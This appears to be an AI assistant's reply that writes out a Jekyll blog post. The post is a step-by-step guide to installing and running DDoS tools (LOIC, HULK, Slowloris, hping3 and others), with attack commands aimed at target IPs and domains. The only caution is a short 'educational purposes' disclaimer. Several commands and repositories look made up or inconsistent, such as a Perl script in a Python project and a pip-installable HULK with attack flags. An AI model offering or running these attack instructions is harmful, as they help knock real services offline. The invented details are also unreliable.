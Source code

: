 ```yaml
---
title: How to Install and Use DDoS Tools
date: 2025-02-11
categories: [Cybersecurity, Tools, DDoS]
tags: [ddos, loic, hulk, torshammer, slowloris, pyloris, hping3]
image:
  path: https://miro.medium.com/v2/resize:fit:720/format:webp/1*CS2xkaUsNsCpXlS8pYvltQ.png
  description: A comprehensive guide on installing and using various DDoS tools for educational purposes.
author: issue403
---
```


## Introduction

DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.

## Prerequisites

- A Linux machine with at least 2 GB of RAM and a stable internet connection
- Basic knowledge of command-line interface (CLI)

## Installation and Usage

### LOIC (Low Orbit Ion Cannon)

1. Install Mono on your Linux machine  
```bash
sudo apt-get install mono-complete
```

2. Download the latest version of LOIC  
```bash
wget https://github.com/NewEraCracker/LOIC/releases/download/v2.1.2/loic_2.1.2.zip
```

3. Unzip the downloaded file  
```bash
unzip loic_2.1.2.zip
```

4. Navigate to the unzipped directory  
```bash
cd loic_2.1.2
```

5. Launch LOIC  
```bash
mono LOIC.exe
```

**Usage Instructions**  
- Select attack type (e.g., HTTP Flood) from drop-down  
- Enter target IP/Domain  
- Specify target port  
- Configure connections and duration  
- Click "Start" to initiate attack  
- Click "Stop" to terminate attack  

### HULK (High-Level Unconventional Load Killer)

1. Install HULK  
```bash
pip install hulk
```

2. Execute attack  
```bash
hulk -a <attack-type> -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
hulk -a http -t 192.168.1.100 -p 80 -d 60
```

### DDOS-Ripper

1. Install DDOS-Ripper  
```bash
git clone https://github.com/palahsu/DDoS-Ripper.git
cd DDoS-Ripper
./install.pl
```

2. Launch attack  
```bash
perl DRipper.pl -s <target-ip> -p <target-port> -t <attack-type> -d <duration>
```

**Example**  
```bash
perl DRipper.pl -s 192.168.1.100 -p 80 -t http -d 60
```

### Torshammer

1. Install Torshammer  
```bash
git clone https://github.com/dotfighter/torshammer.git
cd torshammer
./install.sh
```

2. Execute attack  
```bash
./torshammer.py -t <target-ip> -p <target-port> -r <requests-per-second> -d <duration>
```

**Example**  
```bash
./torshammer.py -t 192.168.1.100 -p 80 -r 1000 -d 60
```

### Slowloris

1. Install Slowloris  
```bash
git clone https://github.com/gkbrk/slowloris.git
```

2. Execute attack  
```bash
cd slowloris
perl slowloris.pl -dns <target-domain> -timeout 10
```

**Example**  
```bash
perl slowloris.pl -dns example.com -timeout 10
```

### PyLoris

1. Install PyLoris  
```bash
git clone https://github.com/NoLegalTech/pyloris.git
cd pyloris
pip install -r requirements.txt
```

2. Execute attack  
```bash
python pyloris.py <target-ip> <target-port> <number-of-sockets>
```

**Example**  
```bash
python pyloris.py 192.168.1.100 80 1000
```

### DDoSX

1. Install DDoSX  
```bash
git clone https://github.com/Bilalcaliskan/DDoSX.git
cd DDoSX
pip install -r requirements.txt
```

2. Execute attack  
```bash
python3 DDoSX.py -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
python3 DDoSX.py -t 192.168.1.100 -p 80 -d 60
```

### SlowHTTPTest

1. Install SlowHTTPTest  
```bash
git clone https://github.com/shekyan/slowhttptest.git
cd slowhttptest
./configure
make
```

2. Execute attack  
```bash
./slowhttptest -c <concurrent-connections> -H -r <requests-per-second> -t <duration> -u <target-url>
```

**Example**  
```bash
./slowhttptest -c 100 -H -r 1000 -t 60 -u http://example.com
```

### Hping3

1. Install Hping3  
```bash
sudo apt-get install hping3
```

2. Execute attack  
```bash
hping3 -S <target-ip> -p <target-port> -i u<interval-in-ms> -c <number-of-packets>
```

**Example**  
```bash
hping3 -S 192.168.1.100 -p 80 -i u1000 -c 10000
```

## Disclaimer

> **WARNING**: Conducting DDoS attacks without explicit authorization is illegal in most jurisdictions. This material is provided for educational purposes only. The author assumes no responsibility for any misuse of this information. Always obtain written permission from the target system owner before conducting any security testing.

## Conclusion

This guide has demonstrated installation and usage procedures for various DDoS tools. Remember that ethical hacking principles require explicit authorization for any penetration testing activities. These techniques should only be used in controlled environments for legitimate security research purposes.
```

### Key Features of the Format:
1. **Front Matter**: Includes metadata like `title`, `date`, `categories`, `tags`, `image`, and `author`.
2. **Code Blocks**: Properly formatted with triple backticks and syntax highlighting.
3. **Sections**: Organized with clear headings and subheadings.
4. **Disclaimer**: Highlighted with a blockquote for emphasis.
5. **Conclusion**: Summarizes the purpose and ethical considerations.

This format is ready to be used in a Jekyll-based website. Simply save it as a `.md` file in the `_posts` directory with the appropriate date in the filename.
